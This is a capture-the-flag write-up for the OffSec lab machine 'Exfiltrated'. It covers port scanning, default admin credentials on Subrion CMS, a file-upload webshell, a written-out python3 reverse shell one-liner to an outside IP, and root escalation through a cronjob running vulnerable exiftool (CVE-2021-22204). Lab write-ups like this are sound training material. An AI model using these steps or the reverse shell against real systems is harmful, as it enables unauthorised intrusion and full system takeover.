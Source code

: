 # Exfiltrated

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:24 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed `nmap` scan to enumerate for me as well:

```
$ sudo nmap -p 22,80 -sC -sV -O -T4 192.168.175.163                         
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:27 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
```

So there's a `/panel` directory present, and we can enumerate that first:

### Default Creds -> Subrion RCE

The `/panel` directory shows us a basic login page:

<figure><img src="../../../.gitbook/assets/image (3074).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. This software was Subrion CMS v4.2.1, which had a few public exploits:

```
$ searchsploit subrion 4.2.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting    | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                     | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                  | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                   | php/webapps/45150.txt
----------------------------------------------------------- ---------------------------------
```

We can use the Arbitrary File Upload to get a webshell on the machine:

<figure><img src="../../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>

From here, we can easily convert this to a reverse shell on our machine using a `python3` reverse shell.&#x20;

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2566).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob -> Exiftool RCE

I ran `linpeas.sh` on the machine to enumerate for me, and it picked up on cronjobs running as the `root` user:

<figure><img src="../../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Here's the content of the file:

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

This program uses `exiftool` to get the metadata of the image and redirects it to a file. We can find the version of `exiftool` being used here by using it on any file:

```
www-data@exfiltrated:/opt$ exiftool image-exif.sh 
ExifTool Version Number         : 11.88
File Name                       : image-exif.sh
Directory                       : .
File Size                       : 437 bytes
File Modification Date/Time     : 2021:06:10 12:06:15+00:00
File Access Date/Time           : 2023:07:01 10:24:06+00:00
File Inode Change Date/Time     : 2021:08:27 12:33:35+00:00
File Permissions                : rwxr-xr-x
File Type                       : bash script
File Type Extension             : sh
MIME Type                       : text/x-bash
```

This version is vulnerable to an RCE exploit by injecting code within the image. When `exiftool` is run on the malicious image, code would be executed as well. Since we can write to the `/var/www/html/subrion/uploads` directory, this means that we just need to create and put a malicious `.jpg` file there.

Here's a repository that can be used:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

We just need to edit `exploit.py` to have the relevant IP address and port. Afterwards, we can grab any sample image and run the exploit to update it with the payload:

```
$ python3 exploit.py
    1 image files updated
```

Afterwards, transfer it to the `/var/www/html/subrion/uploads` directory and wait for a bit. Once the cronjob runs, we will get a reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (2676).png" alt=""><figcaption></figcaption></figure>

Rooted!
